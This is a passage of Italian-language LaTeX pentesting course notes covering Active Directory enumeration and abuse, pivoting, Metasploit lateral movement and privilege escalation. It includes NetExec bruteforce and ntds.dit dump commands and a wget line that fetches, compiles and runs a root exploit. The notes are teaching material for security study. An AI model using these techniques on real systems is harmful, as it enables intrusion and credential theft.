	\begin{itemize}
		\item Se riusciamo ad ottenere l'accesso alla rete interna, è possibile scansionare la rete interna alla ricerca di applicazioni da violare, generalmente meno sicure.
		
		\item Inoltre tramite \textbf{Responder} si possono catturare hash NTLM, da rompere tramite Hashcat o JTR. Responder è un tool da usare con cautela, specialmente in attività di \textbf{Red-teaming} in quanto fa un poisoning attack sulla rete, generando molto rumore. 
	\end{itemize}
	
	\item Cercare periferiche incustodite (come stampanti) o i loro pannelli di configurazione esposti sulla sottorete, che potrebbero disporre di un account di \textbf{servizio} di Active Discovery.
	\begin{enumerate}
		\item Se il pannello di configurazione della periferica è esposto nella sottorete , cambiamo l’indirizzo IP presso cui la periferica si autentica, e lo sostituiamo con un nostro IP.
		
		\item La periferica ci invia le credenziali del service account.
	\end{enumerate}
\end{itemize}

\subsection{Utilizzo delle credenziali di Active Directory}
Una volta ottenuto le credenziali di un account di Active Directory, abbiamo due modi per usarlo:
\begin{itemize}
	\item Se \textbf{disponiamo} di una workstation a dominio, effettuiamo il login a tale macchina con le credenziali recuperate.
	\item Se \textbf{non disponiamo} di una workstation a dominio, ma abbiamo accesso alla \textbf{rete aziendale}, usiamo il nostro computer ed eseguiamo i seguenti comandi:
	\begin{enumerate}
		\item Su Windows: \verb|runas.exe/netonly/user:<dominio>\<username> cmd.exe|\\
		Su Linux: \verb|sudo -u otheruser smbclient //server/share|
		
		\item Su Windows: Grazie a \verb|/netonly|, ogni volta che effettuiamo un'azione di rete tramite \verb|cmd|, \verb|runas.exe|
		cercherà di effettuarla con l’utenza \verb|<dominio>\<username>|\\
		Su Linux: Con \verb|sudo -u|, ogni volta che effettuiamo un'azione di rete grazie al client SMB, verrano usate le credenziali specificate in \verb|otheruser|
		
		\item La nostra macchina continuerà a \textbf{non essere} a dominio, e in locale continueremo ad essere loggati con l'utenza locale.
	\end{enumerate}
\end{itemize}

\newpage

\subsection{Livelli di Amministratore}
In Active Directory, i profili di amministratore possono essere organizzati in \textbf{Livelli}:
\begin{itemize}
	\item \textbf{Livello 0}: Amministratori che hanno privilegi elevati su sistemi critici dell’infrastruttura (come i Domain Controller);
	\item \textbf{Livello 1}: Amministratori che hanno privilegi elevati su sistemi meno critici (come i Server);
	\item \textbf{Livello 2}: Amministratori che hanno privilegi elevati su sistemi poco critici (come le Workstation). 
\end{itemize}

\subsection{Enumerazione delle Active Directory}
Una volta ottenuto l'accesso ad un account di Active Directory, una delle pratiche più comuni è l'\textbf{enumerazione}. Vi sono molte cose enumerabili, tra cui:
\begin{itemize}
	\item Utenti e dettagli sui loro profili
	\item Unità organizzative aziendali
	\item Amministratori e Gruppi di Amministratori
	\item Workstation e Server
	\item Domain Controllers e Group Policies
\end{itemize}

\subsubsection{Enumerazione con MMC (solo Windows)}
Microsoft Management Console (MMC) è un tool integrato usato per \textbf{creare, salvare e aprire strumenti di amministrazione}, denominati console, che gestiscono i componenti hardware, software e di rete del sistema operativo Microsoft Windows.

\begin{table}[H]
\centering
\begin{tabular}{|m{7cm}|m{7cm}|}
	\hline
	\textbf{Vantaggi} & \textbf{Svantaggi} \\
	\hline
	Comoda interfaccia grafica per analizzare ricerche e
	risultati & Non potendo usare MMC tramite CLI, dobbiamo usare la
	nostra macchina o avere accesso fisico o RDP ad una
	workstation a dominio \\
	\hline
	Possiamo direttamente fare exploiting da qui, se abbiamo
	già i permessi & Possiamo visualizzare solo un oggetto alla volta \\
	\hline
	Fornisce subito un'idea di massima della dimensione
	dell'Active Directory & Non è possibile fare query \\
	\hline
\end{tabular}
\end{table}

\subsubsection{Enumerazione con CLI (Windows)}
Per enumerare Active Directory, si può usare una Command Line Interface (CLI) come \verb|cmd.exe|. Alcuni comandi utili sono:
\begin{itemize}
	\item \verb|net| - Fornisce tutti i comandi disponibili.
	\item \verb|net user /domain| - Elenca gli utenti appartenenti al dominio.
	\item \verb|net user mario.rossi /domain| - Restituisce informazioni sull’utente \textbf{mario.rossi} a dominio.
	\item \verb|net group /domain| - Elenca i gruppi appartenenti al dominio.
	\item \verb|net accounts /domain| - Elenca la policy per le password e il blocco degli account sul dominio.
\end{itemize}

\begin{table}[H]
	\centering
	\begin{tabular}{|m{7cm}|m{7cm}|}
		\hline
		\textbf{Vantaggi} & \textbf{Svantaggi} \\
		\hline
		Non richiede RDP, a differenza di MMC & Dobbiamo necessariamente essere connessi in SSH ad una macchina a dominio \\
		\hline
		I comandi della slide precedente solitamente non sono monitorati dal blue team & Output poco pratico e non sempre completo (alcuni elementi vengono troncati) \\
		\hline
		Facilmente collegabile a script  &  \quad\quad\quad\quad\quad\quad\quad\quad\quad/ \\
		\hline
	\end{tabular}
\end{table}

\newpage

\subsubsection{Enumerazione con PowerShell}
Un altro tool estremamente utile per fare Active Directory è PowerShell.

\begin{table}[H]
	\centering
	\begin{tabular}{|m{7cm}|m{7cm}|}
		\hline
		\textbf{Vantaggi} & \textbf{Svantaggi} \\
		\hline
		Possiamo fare query & Dobbiamo installare AD-RSAT (Active Directory Remote Server Administration Tools) sulla macchina che effettuerà la scansione \\
		\hline
		Possiamo cambiare il dominio di riferimento, quindi possiamo lanciarlo dalla nostra macchina NON a dominio & Powershell e AD-RSAT sono spesso monitorati dal blue team \\
		\hline
		Possiamo sia cercare che manipolare oggetti (quindi possiamo anche fare exploiting) & \quad\quad\quad\quad\quad\quad\quad\quad\quad/ \\
		\hline
		Possiamo scrivere le nostre funzioni (cmdlet) & \quad\quad\quad\quad\quad\quad\quad\quad\quad/ \\
		\hline
	\end{tabular}
\end{table}

\subsection{Enumerazione con Bloodhound}
Bloodhound è un potente tool che permette di visualizzare gli oggetti di Active Directory \textbf{sotto forma di grafo}. Venne rilasciato nel 2016 e cambiò l'approccio \textbf{offensivo} e \textbf{difensivo} nei confronti di Active Directory, in quanto in precedenza è sempre stato visto \textbf{sotto forma di liste separate} di permessi, di group policy, di utenti, di workstation ed etc.

\subsubsection{Rappresentazione nel grafo}
I \textbf{nodi del grafo} rappresentano i gruppi, gli utenti, le workstation, i server ed etc., mentre gli \textbf{archi del grafo} sono le \textbf{relazioni tra i nodi}, o i \textbf{vari permessi} che hanno l'uno nei confronti dell’altro. Esempi:
\begin{itemize}
	\item Mario Rossi can RDP on Server X
	\item Luigi Neri is member of Tier 2 Admin
\end{itemize}

\subsubsection{Procedimento di enumerazione}
\begin{enumerate}
	\item Scansione con \textbf{Sharphound}, tool integrato che estrae \textbf{tutte le informazioni} sugli oggetti e le loro relazioni.
	\begin{itemize}
		\item La scansione è \textbf{abbastanza veloce}, ma \textbf{non è stealth}.
		\item Una possibile strategia in \textbf{red team} potrebbe essere quella di “sacrificare” la stealthiness di una macchina violata per effettuare la scansione con Sharphound, poi \textbf{rimanere in standby} mentre si effettuano le analisi con Bloodhound, ed infine \textbf{effettuare l’exploit mediante un’altra macchina violata}.
	\end{itemize}
	
	\item Per effettuare l’analisi l'attaccante chiede a Bloodhound se esiste un path da quello che ha violato al server "X". Se esiste, Bloodhound ci mostra quali permessi possiamo ottenere e quali macchine
	violare per arrivare allo scopo.
\end{enumerate}

\subsubsection{Esempio di enumerazione con Bloodhound}
L'attaccante chiede a Bloodhound e esiste un path da un account che abbiamo violato \\ (\verb|marcus.garner@za.tryhackme.com|) ad un qualsiasi altro account che appartenga al gruppo\\ Amministatori di Livello 1.

Bloodhound risponde che con quell’utente l'attaccante piò accedere in \textbf{RDP} alla macchina \textbf{THMJMP1}, in cui \textit{Henry Miller}, che è un Admin Livello 1 (T1), ha una sessione \textbf{attiva}. L'attaccante può esfiltrare le sue \textbf{credenziali} o dei \textbf{token di autenticazione} o altro.

\begin{figure}[H]
	
\includegraphics[width=1\textwidth]{Immagini/EsBloodhound.png}
\end{figure}

\newpage

\subsection{Access Control Entries (ACE)}
Seppur Bloodhound è un ottimo tool per identificare path in maniera automatizzata, la procedura di \textbf{exploit} rimane manuale.\\
Inoltre \textbf{Sharphound}, in caso di attività di \textbf{red teaming}, è poco pratico a causa del rumore che genera.

L'attaccante può quindi agire manualmente, analizzando le \textbf{Access Control Entries (ACE)}, ovvero i \textbf{permessi} assegnate alle varie entità in Active Directory.

Tra le ACE più utili ci sono:
\begin{itemize}
	\item \textbf{ForceChangePassword} - Ci permette di \textbf{forzare il cambio password dell’utente target}, con un’altra password arbitraria scelta da noi (solo su utenti);
	
	\item \textbf{AddMembers} - Ci permette di aggiungere utenti (compresi noi stessi) ad un gruppo di utenti.
	
	\item \textbf{GenericWrite} - Ci permette di effettuare
	\textbf{operazioni di scrittura} sull’oggetto target, ma solo su \textbf{parametri non protetti}.
	\begin{itemize}
		\item L'oggetto target può essere un \textbf{utente}, un \textbf{gruppo}, una \textbf{policy}, un \textbf{server}, un \textbf{Domain Controller}.
		
		\item Esempio di parametro \textbf{protetto}: la password di un utente.
		\item Esempio di parametro \textbf{non protetto}: \verb|scriptPath|, che permette di specificare uno script da eseguire subito dopo il login dell’utente.
	\end{itemize}
	
	\item \textbf{WriteOwner} - Ci permette di \textbf{cambiare l’Owner} dell’oggetto target (l’Owner di un oggetto ha \textbf{tutti i diritti} su di esso).
	
	\item \textbf{WriteDACL} - Ci fornisce il controllo della \textbf{Discretionary Access Control List} dell'oggetto.
	
	\item \textbf{AllExtendedRights} - Ci fornisce \textbf{quasi tutti i permessi sull’oggetto in questione}, con pochissime eccezioni.
	
	\item \textbf{GenericAll} -  Ci fornisce \textbf{completo controllo sull'oggetto target}, ovvero disponiamo di tutti i permessi e possiamo fare tutte le azioni.
\end{itemize}

\subsection{NetExec (ex CrackMapExec)}
NetExec è un tool che automatizza molte azioni, come la \textbf{ricerca di hash}, di \textbf{domini su una sottorete}, \textbf{host}, \textbf{servizi} ed altro. Tuttavia molte delle azioni eseguibili tramite il tool richiedono una utenza di Active Directory.

Contiene diverse modalità di utilizzo, come \textbf{SMB}, \textbf{SSH}, \textbf{MSSQL}, \textbf{Winrn} e \textbf{ldap}.

\subsubsection{Esempi di utilizzo di NetExec}
\begin{itemize}
	\item \textbf{cme smb 192.168.0.0/24} - Cerca host nella sottorete (non richiede un account di AD);
	
	\item \textbf{cme smb 192.168.0.0/24 -u user -p pass --shares} - Enumera gli share di rete;
	
	\item \textbf{cme smb 192.168.0.0/24 -u user -p pass --shares} - Enumera gli utenti;
	
	\item \textbf{cme smb 192.168.0.33 -u users.txt -p pws.txt} - Viene usato per bruteforcing;
	
	\item \textbf{cme smb 192.168.0.100 -u user -p pass --ntds} - Crea dump \verb|ntds.dit| dal Domain Controller;
	
	\item \textbf{me mssql 192.168.0.59 -u user -p pass -x whoami} - Esegue comandi di sistema dal database;
	
	\item \textbf{cmedb} - Mostra tutti gli hash e le password ottenuti.
\end{itemize}

\newpage

\subsection{Exploiting Active Directory}
Scovare e sfruttare vulnerabilità su Active Directory consiste nel trovare \textbf{misconfigurazioni} e ottenere controllo degli oggetti di cui non avremmo controllo all'inizio dell'attività. Non esiste un limite alle azioni eseguibili, affinché riusciamo ad ottenere \textbf{nuovi privilegi}, come:
\begin{itemize}
	\item Cambiare la password di un account per ottenerne il controllo;
	\item Aggiungere un account che abbiamo violato al gruppo degli amministratori di rete;
	\item Droppare uno script sulla macchina di un utente mettendolo in una cartella condivisa per poi \textbf{farglielo eseguire} al successivo login mediante \verb|scriptPath|.
\end{itemize}

Inoltre, se avendo violato un sito web (server side) tramite una vulnerabilità come XXE, potremmo fare tramite \textbf{Remote Code Execution} sulla macchina e vedere:
\begin{itemize}
	\item Quali utenti hanno una sessione aperta e rubare la password di un utente con privilegi diversi dai nostri, e verificare le misconfigurazioni dei suoi permessi;
	
	\item Quali altri servizi ci stanno sopra e vedere se dispongono di credenziali ad utenze di servizio che potrebbero tornarci utili.
	
	\item Cos’altro c’è su quella sottorete e vedere se, con l'utenza ottenuta, si può accedere a macchine a cui prima non avevamo accesso.	
\end{itemize}

\newpage
\section{Post-Exploitation}
Una volta ottenuto il controllo della macchina tramite una \textbf{reverse shell}, è possibile fare:
\begin{itemize}
	\item Usare la macchina violata al fine di \textbf{esplorare la sottorete} di cui fa parte.
	\item Effettuare una \textbf{privilege escalation} ed \textbf{ottenere permessi di root} sulla macchina.
	\item \textbf{Estrarre le password dal browser} della vittima, dal password manager, oppure installando un keylogger.
	\item Stabilire \textbf{persistenza} sulla macchina.
\end{itemize}

\subsection{Esplorare la sottorete - Pivoting}
Affinché il pentester acceda alle sottoreti della macchina violata, è necessario che faccia \textbf{Pivoting}, ovvero operazioni che consentono al pentester di spostarsi dalla macchina violata ad altre macchine nella sottorete, con il fine di accedere ad una rete più grande. Una macchina violata si dice:
\begin{itemize}
	\item \textbf{Dual-homed} - Se ha \textbf{due} interfacce di rete.
	\item \textbf{Multi-homed} - Se ha \textbf{tre o più} interfacce di rete.
\end{itemize}

\subsubsection{Esempio di Pivoting}
Supponiamo che un pentester sia riuscito a violare una macchina, denominata \textbf{Macchina 1} e che voglia fare Pivoting:

\begin{minipage}{0.50\textwidth}
\begin{figure}[H]
	
\includegraphics[width=1\textwidth]{Immagini/PivotingEs.png}
\end{figure}
\end{minipage}
\quad
\begin{minipage}{0.45\textwidth}
\begin{itemize}
	\item Il \textbf{Pentester} e la \textbf{Macchina 1} si trovano sulla  \textbf{Sottorete A}.
	\item La \textbf{Macchina 1} e la \textbf{Macchina 2} si trovano sulla \textbf{Sottorete B}.
	\item Il pentester vuole scoprire l'esistenza di \textbf{Macchina 2} ma, non essendo sulla sua sottorete, non può farlo direttamente. 
	Deve quindi fare \textbf{Discovery}.
\end{itemize}
\end{minipage}


\subsection{Discovery su Linux}
In breve, fare (Active) Discovery, consiste nello scansionare un range di IP di una macchina, per vedere quali macchine sono \textbf{attive} e quali servizi sono disponibili.

In ambienti linux, vi sono tool che ci possono aiutare a fare discovery:
\begin{itemize}
	\item \verb|ip addr show| o \verb|ip a| - Elenca le interfacce di rete (e quindi quante sottoreti), possiamo analizzare. Utile per \textbf{Movimento Laterale}. 
	
	\item \verb|ifconfig| - Simile a \verb|ip a|, tuttavia è \textbf{deprecato} in alcuni sistemi linux più recenti. 
	
	\item \verb|nmap -vv -p- 192.168.0.0/24| - Eseguendo \verb|nmap| sulla macchina violata, possiamo verificare i servizi esposti dalla sottorete. Anch'esso utile per \textbf{movimento laterale}, ma sconsigliato per attività di \textbf{red teaming} in quanto:
	\begin{itemize}
		\item Anche con l'opzione \textbf{stealth} \verb|-sH|, \verb|nmap| fa molto rumore.
		\item L’esecuzione di applicazioni non autorizzate potrebbe sollevare alert.
	\end{itemize}
\end{itemize}


\subsection{Discovery su Windows}
In caso di sistemi Windows, vi sono tool appositi per fare Discovery:
\begin{itemize}
	\item \verb|netstat -aon| - Restituisce la lista di tutte le connessioni attive e le \textbf{porte in ascolto} (-a), insieme all’\textbf{ID del processo associato} (-o) e mostrando indirizzi e porte in \textbf{formato numerico} (-n). Questo potrebbe mostrarci macchine attive su una sottorete. Utile quindi per \textbf{movimento laterale}.
	
	\item \verb|net group “Domain Admins” /domain| - Visualizza tutti gli utenti appartenenti al gruppo “Domain Admins” all’interno del \textbf{dominio corrente} (/domain). Utile per \textbf{movimento laterale} e/o \textbf{privilege escalation}.
	
	\item \verb|tasklist /v| - Visualizza tutti i processi attivi \textbf{includendo più dettagli} (/v). Potrebbe mostrarci processi eseguiti da \verb|NT AUTHORITY\SYSTEM| che possiamo usare a nostro vantaggio. Utile quindi per \textbf{privilege escalation}.
	
	\item \verb|findstr /s /n /i /p stringa *| - Cerca una stringa nella directory corrente e le \textbf{sottodirectory} (/s), in maniera
	\textbf{case-insensitive} (/i), ignorando i file con \textbf{caratteri non stampabili} (/p). Ogni risultato viene accompagnato da nome file e numero di riga in cui viene trovata \textbf{l’occorrenza della stringa}
	(/n). Utile per cercare \textbf{file contenenti credenziali}, o fare azioni di collection in generale. Utile quindi per \textbf{movimento laterale} e \textbf{privilege escalation}.
\end{itemize}

\subsubsection{Red Team Field Manual (RTFM)}
Essendo impossibile ricordarsi di tutti i comandi utilizzabili durante un attività di pentesting, esiste un'utility chiamata \textbf{RTFM}, che prende spunto dal libro \textit{Red Team Field Manual}, il quale contiene numerosi comandi utili per attività di Red Teaming e Penetration Testing.

Ulteriori informazioni su: \verb|https://github.com/leostat/rtfm|

\subsection{Movimento Laterale}
Una volta scoperto l'esistenza di macchine attive nella sottorete della macchina violata, l'attaccante può:
\begin{itemize}
	\item Utilizzare credenziali trovate nella macchina vittima per vedere se sono state riutilizzate dall'utente sulle altre macchine, provando connessioni \verb|SSH| usando coppie di nomi utenti e password note.
	
	\item Controllare se l'account della macchina violata con cui è loggato sia un utente di \textbf{dominio}, cosicché può provare a connettersi semplicemente navigando verso il loro path di rete.
	\begin{itemize}
		\item In PowerShell avviene scrivendo \verb|cd \\macchina\path|
		\item In altre shell avviene montando il percorso di rete sul filesystem violato
		\item L'attaccante può inoltre attaccare il Domain Controller ed esfiltrare gli hash delle password di tutti gli utenti di dominio.
	\end{itemize}
	
	\item Controllare se le macchine espongono servizi come \textbf{smb} o \textbf{ftp} e connettersi a tali servizi tramite tool come \verb|nmap|, che possono dirci se tali servizi hanno vulnerabilità note.
	\begin{itemize}
		\item I sistemi non esposti direttamente da Internet, considerati dai sysadmin come irraggiungibili, spesso \textbf{sono più vulnerabili}.
	\end{itemize}
\end{itemize}

\subsubsection{Esempio di Movimento Laterale}
Riprendendo l'esempio usato per il Pivoting, supponiamo nuovamente che il pentester (o l'attaccante) abbia violato la \textbf{Macchina 1} nella \textbf{Sottorete A} e abbia ottenuto una Reverse Shell. Successivamente procede così:

\begin{minipage}{0.50\textwidth}
	\begin{figure}[H]
		
\includegraphics[width=1\textwidth]{Immagini/PivotingEs.png}
	\end{figure}
\end{minipage}
\quad
\begin{minipage}{0.45\textwidth}
\begin{enumerate}
	\item Usa \verb|ip a| e scopre la \textbf{Sottorete B};
	\item Fa l'upload di \verb|nmap| su \textbf{Macchina 1} e\\ lancia una scansione sulla \textbf{Sottorete B};
	\item Scopre \textbf{Macchina 2} e il suo \verb|ssh| esposto.
	\item Fa l'upload di un tool come \verb|hydra| e una \textit{wordlist}, ed esegue una bruteforce su \textbf{Macchina 1}.
	\item Ottiene l'accesso a \textbf{Macchina 2}.
\end{enumerate}
\end{minipage}

Seppur funziona, se violando una macchina se ne trovano altre in successive sottoreti, violarle tutte manualmente richiede \textbf{molto tempo}. 

\newpage
\subsection{Metasploit Framework - MSF (msfconsole)}
Possiamo \textbf{automatizzare}, tramite un tool chiamato
\verb|msfconsole|, molte delle operazioni citate prima, come \textbf{Caricamento} e \textbf{utilizzo} di exploit, \textbf{Upload/download} di file sulla macchina attaccata, \textbf{Ricerca di vettori} per \textbf{Privilege Escalation} e \textbf{Pivoting}.

Seppur il tool sia meno intuitivo rispetto a fare le operazioni manualmente, esso presenta diversi \textbf{vantaggi}:
\begin{itemize}
	\item Upload ed esfiltrazione di file automatico tramite \textbf{Autoroute}, che li passa di macchina in macchina fino a destinazione.
	
	\item Grande quantità di tool disponibili per tutte le fasi del Penetration Testing, senza quindi la necessità di caricare tool od exploit sulla macchina violata.
	
	\item La Shell Meterpreter è caricata interamente in RAM, quindi non scriviamo nulla sul filesystem della macchina violata.
	
	\item Ogni Shell rimane aperta contemporaneamente, senza alcuna necessità di chiudere connessioni tra una maccchina ad un'altra.
\end{itemize}

\subsubsection{Esempio di Movimento Laterale con MSF}

Supponendo di voler fare Movimento Laterale, invece di usare \verb|nc -nvlp <porta>| per stare in ascolto della nostra Reverse Shell sulla Macchina 1, possiamo utilizzare, tramite MSF, il modulo \verb|exploit/multi/handler| con un payload di default come \verb|generic/shell_reverse_tcp|.

\textbf{Potenziamento a Meterpreter}:\\
Ottenendo una shell tramite MSF ci permette di potenziarla a \textbf{meterpreter} tramite il comando\\ \verb|sessions -u <n>|, che utilizza il modulo \verb|shell_to_meterpreter|, assegnando alla shell un ID \verb|n|.

\textbf{Caricamento e Utilizzo di} \verb|nmap|:\\
Dopo aver ottenuto la shell su \textbf{Macchina 1}, lanciamo \verb|ip a| per verificare se ci sono altre sottoreti da analizzare. Supponendo ci sia un'ulteriore sottorete collegata alla \textbf{Macchina 1} tramite \textbf{eth0}, possiamo caricare \verb|nmap| sulla \textbf{Macchina 1} tramite il comando \verb|upload| della shell meterpreter.
\begin{itemize}
	\item In caso \verb|upload| \textbf{non dovesse funzionare}, si possono usare comandi come \verb|setup|, \verb|wget|, \verb|curl|, \verb|nc|, \verb|scp|, \verb|ftp| e \verb|http server|.
\end{itemize}

Lanciamo \verb|nmap| e troviamo \textbf{Macchina 2}. Per effettuare bruteforce, dobbiamo prima dire a MSF come fare pivoting, quindi apriamo il modulo \verb|multi/manage/autoroute| di MSF e impostiamo la sessione e la sottorete trovata con \verb|ip a|.
\begin{itemize}
	\item In alternativa ad \verb|nmap|, per non caricare nulla sul filesystem della macchina violata, si possono usare i moduli \verb|auxiliary/scanner/portscan/tcp| o \verb|auxiliary/scanner/portscan/syn| di MSF.
	
	\item Notare che ci viene chiesto \textbf{il numero di sessione}, per cui la shell tramite MSF è un requisito.
	
	\item Ogni volta che specifichiamo un indirizzo IP nella Sottorete B, MSF farà \textbf{automaticamente pivoting} del traffico da/verso di noi, mediante \textbf{Macchina 1}.
\end{itemize}

Successivamente, per fare il bruteforcing vero e proprio, usiamo il modulo \verb|auxiliary/scanner/ssh/ssh_login| per effettuare il bruteforce sull'SSH esposto dalla \textbf{Macchina 2}, impostiamo come RHOSTS l'IP della \textbf{Macchina 2} nella \textbf{Sottorete B} e impostiamo le wordlist per \textit{nome utente} e/o \textit{password} con i parametri
\verb|USER_FILE| e \verb|PASS_FILE|.
\begin{itemize}
	\item Tramite \verb|Autoroute|, il modulo sarà lanciato dalla \textbf{nostra} macchina direttamente verso \textbf{Macchina 2}. Il pivoting verso \textbf{Macchina 1} è trasoarente.
\end{itemize}

Infine lanciamo il bruteforce che, se ha successo, ci restituirà una Reverse Shell di MSF a \textbf{Macchina 2}.

Se volessimo rendere anche questa Reverse Shell una Meterpreter, lanciare il comando \verb|sessions -u <n>| \textbf{non funzionerà}, in quanto il modulo verrà lanciato tramite parametri di default.

Il tool MSF cerca di \textbf{usare gli indirizzi IP delle nostre interfacce di rete}, che non hanno senso in \textbf{Macchina 2}, in quanto in un'altra sottorete.

Bisogna indicare ad MSF l'indirizzo di \textbf{Macchina 1} come LHOST, affinché si possa aprire la shell Meterpreter da \textbf{Macchina 2} a \textbf{Macchina 1}. MSF penserà automaticamente, tramite \verb|Autoroute|, al pivoting al contrario verso la nostra macchina.

Adesso, tramite il comando \verb|post/multi/manage/shell_to_meterpreter|, la Reverse Shell di \textbf{Macchina 2} diventa Meterpreter.

\newpage

\subsection{Privilege Escalation}
La \textbf{Privilege Escalation} è un processo mediante il quale l’attaccante può \textbf{incrementare i propri permessi su una macchina o una rete}, rompendo il modello di sicurezza della macchina o della rete previsto dagli amministratori.

Sebbene l'esecuzione di payload per effettuare XSS, SQL Injection, Code Injection ed etc prevede operazioni non consentite dall'attaccante (in quanto non dispone dei \textbf{permessi} per farlo), il termine \textbf{privilege escalation} è riservato agli exploit che \textbf{girano in locale sulla macchina vittima} sfruttando processi o servizi più alti di quelli dell'attaccante, permettendo a quest'ultimo di ottenerli.

\subsubsection{PE su Macchina non aggiornata}
Supponiamo di aver violato una macchina non aggiornata, con una vulnerabilità \textbf{nota}. 
\begin{itemize}
	\item Se l'attaccante ha una Reverse Shell tramite MSF, può verificare se la macchina violata sia vulnerabile a PE tramite il modulo \verb|post/multi/recon/local_exploit_suggester|.
	
	\item Se l'attaccante ha una normale Reverse Shell, può cercare l'exploit su Internet, caricarlo sulla macchina vittima come \verb|wget|, compilarlo se necessario ed infine eseguirlo.
\end{itemize}

\subsubsection{PE su Macchina Linux non aggiornata}
Supponiamo che la macchina violata abbia Linux e di avere una Reverse Shell su di essa che ci permette di dare comandi arbitrari.

Usando il tool \verb|whoami| scopriamo di essere un normale \textbf{utente}, quindi soggetto a restrizioni. Successivamente il comando \verb|lsb_release -a| ci comunica che la macchina usa \textbf{Ubuntu 11.10} a \textbf{32 bit}, vulnerabile a \textbf{CVE 2012-0056}.

Scarichiamo un exploit sulla macchina tramite \verb|wget|:
\begin{verbatim}
wget -O exploit.c http://www.exploit-db.com/download/18411
\end{verbatim}

Lo compiliamo: \verb|gcc -o exploit exploit.c|, lo eseguiamo \verb|./exploit| e aspettiamo che finisca.

Sempre tramite \verb|whoami| scopriamo che siamo \textbf{root}.

\subsubsection{Exploit trovati in rete}
Usare exploit trovati su internet è comodo, tuttavia:
\begin{itemize}
	\item È possibile che i payload trovati siano esche per gli \textbf{script kiddies}, ovvero utenti inesperti che si limitano ad eseguire payload trovati senza comprenderne il funzionamento. Inoltre:
	\begin{itemize}
		\item Tali esche potrebbero attaccare la macchina di chi li usa invece che la macchina vittima.
		\item Quello che si trova su MSF è generalmente sicuro.
		\item Usare una VM per il pentest limita potenziali rischi.
	\end{itemize}
	
	\item Non permette all'attaccante di capire su come funziona la vulnerabilità e sul come sfruttarla.
\end{itemize}
\newpage
\subsection{Privilege Escalation su Windows}
\subsubsection{Unquoted Service Path}
Si tratta di una vulnerabilità dovuta dal \textbf{non aver messo tra virgolette} il percorso del file \textbf{da eseguire} nelle impostazioni di configurazione di un servizio.

\textbf{Esempio}

Supponiamo di avere un servizio chiamato \verb|service.exe|
\begin{itemize}
	\item Se il dato servizio fosse configurato per eseguire \verb|“C:\Programmi\Mio Servizio\service.exe”|, esso funzionerebbe senza problemi.
	
	\item Se invece il servizio fosse configurato per eseguire \verb|C:\Programmi\Mio Servizio\service.exe|, la vulnerabilità deriva dal fatto che \textbf{mancano le virgolette attorno al path}.
	All'attaccante basta inserire un exploit come: \verb|C:\Programmi\exploit.exe| per sfruttare la vulnerabilità.\\
	L'attaccante inoltre ottiene \textbf{persistenza} sul sistema, in quanto ad ogni avvio viene caricato\\ \verb|exploit.exe|
\end{itemize}

\textbf{Perché si verifica questa vulnerabilità?}

La vulnerabilità si verifica in quanto \textbf{Windows Service Controller} interpreta \verb|exploit.exe| come \textbf{eseguibile} mentre \verb|Servizio\service.exe| come un \textbf{argomento} da passare all'eseguibile. 

Inoltre, se \verb|service.exe| era eseguito da \verb|NT AUTHORITY\SYSTEM| allora anche \verb|exploit.exe| verrà eseguito da \verb|NT AUTHORITY\SYSTEM| ad ogni avvio del server, consentendo all'attaccante di agire con \textbf{privilegi elevati}.

\subsubsection{Always Install Elevated}
Su Windows, oltre file setup .exe, è possibile installare software anche con i file \textbf{.msi} (Microsoft Installer).

Rispetto ad un file .exe, un installer \textbf{.msi}:
\begin{itemize}
	\item Non può essere eseguito insieme ad altri file \textbf{.msi}.
	\item Segue \textbf{specifiche regole} su come viene effettuata l’installazione, la riparazione, l’aggiornamento o la disinstallazione del software in questione.
\end{itemize}

L'attaccante può usare i file \textbf{.msi} per effettuare una \textbf{Privilege Escalation}. 

Esiste una sola condizione affinché l'attaccante possa sfruttare la vulnerabilità: la chiave \textbf{AlwaysInstallElevated} dev'essere impostata su \verb|True|. Quindi controlla, tramite \verb|regedit| oppure tramite \verb|reg query| e controlla lo stato della chiave. Se la chiave è su \verb|True|, ogni file eseguito dal \textbf{.msi} sarà eseguito da \verb|NT AUTHORITY\SYSTEM|, altrimenti deve trovare altre soluzioni.

Tramite il modulto \verb|exploit/windows/local/always_install_elevated| di \textbf{Metasploit} si può creare un file \textbf{.msi} che esegue il payload richiesto dall'attaccante, come una reverse shell.

\subsection{Privilege Escalation su Linux}
\subsubsection{SUID}
In Linux, \textbf{Set owner UserID upon execution} o \textbf{SUID} è un \textbf{permesso} che può essere assegnato ad un file e consente ad un utente \textbf{A} di eseguire quel file con i permessi dell’\textbf{owner del file}, ad esempio l’utente B.

Ad esempio, ogni utente può cambiare la propria password mediante il comando \verb|passwd|, ma l’unico utente che può scrivere su \verb|/etc/shadow| è \textbf{root}. Quindi per rendere fruibile \verb|passwd| a tutti gli utenti:
\begin{itemize}
	\item L’owner dell’eseguibile \verb|passwd| deve essere \textbf{root} (utente B).
	\item \verb|passwd| quindi ha il bit \textbf{SUID impostato ad 1}.
\end{itemize}

In questo modo, l'utente A dispone dei privilegi di \textbf{root} mentre esegue \verb|passwd|, ed è in grado di cambiare la propria password.

Gli amministratori di sistema possono impostare il bit \textbf{SUID anche su altri eseguibili}. Quindi una strategia di privilege escalation sarebbe cercare quelli appartenenti all’utente \textbf{root} proprio \textbf{per provare a ottenere una privilege escalation}.

\newpage
\subsubsection{Exploit su Systemctl}
